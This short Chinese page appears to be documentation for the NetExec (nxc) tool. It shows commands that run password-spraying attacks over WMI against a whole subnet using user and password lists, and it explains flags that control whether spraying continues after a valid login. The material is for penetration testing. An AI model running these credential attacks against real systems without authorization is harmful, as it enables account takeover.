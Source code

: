 # 密码喷洒攻击

### 密码喷洒攻击

```
#~ nxc wmi 192.168.1.0/24 -u userfile -p passwordfile
```

默认情况下，nxc 会在找到一个有效登录后退出。

### 密码喷洒攻击（不使用暴力破解）

```
#~ nxc wmi 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

默认情况下，nxc 会在找到一个有效登录后退出。使用 `--continue-on-success` 标志会在找到有效密码后继续喷洒。这在对大量用户列表使用单个密码进行喷洒时很有用。
